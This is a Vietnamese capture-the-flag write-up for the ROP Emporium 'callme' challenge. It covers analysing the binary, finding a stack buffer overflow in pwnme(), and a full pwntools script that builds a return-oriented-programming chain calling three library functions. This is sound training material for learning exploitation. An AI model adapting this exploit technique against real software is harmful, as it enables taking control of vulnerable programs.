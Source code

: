 # ROP_Emporium - callme

# 1. Tìm lỗi

Ta sẽ dùng lệnh `file` để xem thông tin file challenge:
```
callme: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=e8e49880bdcaeb9012c6de5f8002c72d8827ea4c, not stripped
```
Đây là file 64-bit không bị ẩn tên hàm. Kế đến, ta sẽ kiểm tra security của file:
```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
RUNPATH:  b'.'


```
Ta thấy chỉ có NX được bật, tức là ta không thể thực thi code nằm trên stack được. Tiếp theo, ta mở file bằng IDA PRO 64bit. Có thể thấy hàm khai thác là hàm **pwnme()**:

Hàm pwnme()

![pwnme.png](images/pwnme.png)

Còn có hàm usefulFunction()

![usefulFunction.png](images/usefulFunction.png)

Ở hàm pwnme() ta có thể thấy tại dòng thứ 8 cho phép ghi 0x200 ký tự vào biến **s** nhưng biến **s** chỉ được khai báo 0x20 bytes --> **Buffer Overflow**

# 2. Ý tưởng

Có thể thấy ở bài này không có hàm win nên ta không thể sử dụng ret2win, khi tra cứu tất cả các hàm bằng gdb ta thấy 1 usefulGadgets():

![usefulGadget.png](images/usefulGadget.png)

Cũng như khi xét hàm usefulFunction():

![function.png](images/function.png)

Ở đầu usefulFunction() có các gadgets ta có thể tìm được trong file binary:

![ROP.png](images/ROP.png)

Tại usefullGadgets() có các hàm `pop` các thanh ghi `rdi,rsi,rdx` giống với tham số cho mỗi lần call `callme_one, callme_two, callme_three`

--> ROP_gadget

# 3. Khai thác

Ta cũng sẽ tìm offset tới rip bằng gdb như sau:

![offset.png](images/offset.png)

Bởi vì địa chỉ của `return address` lớn hơn địa chỉ biến nhập vào 0x28 vì vậy ta chỉ việc tạo script để ghi đè saved rip thành ROP_chain với các tham số và call hàm như hint đề bài:

![hint.png](images/hint.png)

Vậy các tham số truyền vào các hàm lần lượt là:
```
arg1 = 0xdeadbeefdeadbeef
arg2 = 0xcafebabecafebabe
arg3 = 0xd00df00dd00df00d

```

Và các hàm cần gọi lần lượt theo thứ tự: 
`callme_one`
`callme_two`
`callme_three`

Full code:
```
from pwn import*
context.log_level       = "DEBUG"
context.arch            = "amd64"

elf = context.binary = ELF('./callme', checksec=False)

p = process("./callme")

#gdb.attach(p, gdbscript='''''')

ret = ROP(elf).find_gadget(["ret"])[0]
pop_rdi_ret = ROP(elf).find_gadget(["pop rdi", "ret"])[0]
push_rbp = 0x0000000000400840
#system = elf.sym['system']
rdi_rsi_rdx_ret = elf.sym['usefulGadgets']
vuln = elf.sym['usefulFunction']

call1 = elf.sym['callme_one']
call2 = elf.sym['callme_two']
call3 = elf.sym['callme_three']

arg1 = 0xdeadbeefdeadbeef
arg2 = 0xcafebabecafebabe
arg3 = 0xd00df00dd00df00d

payload = flat(
    cyclic(0x28),
    push_rbp,
    rdi_rsi_rdx_ret,
    arg1,
    arg2,
    arg3,
    call1,
    
    rdi_rsi_rdx_ret,
    arg1,
    arg2,
    arg3,
    call2,
    
    rdi_rsi_rdx_ret,
    arg1,
    arg2,
    arg3,
    call3
    )
p.sendlineafter(b">",payload)
p.interactive()

```

# 4. Lấy flag

![flag.png](images/flag.png)


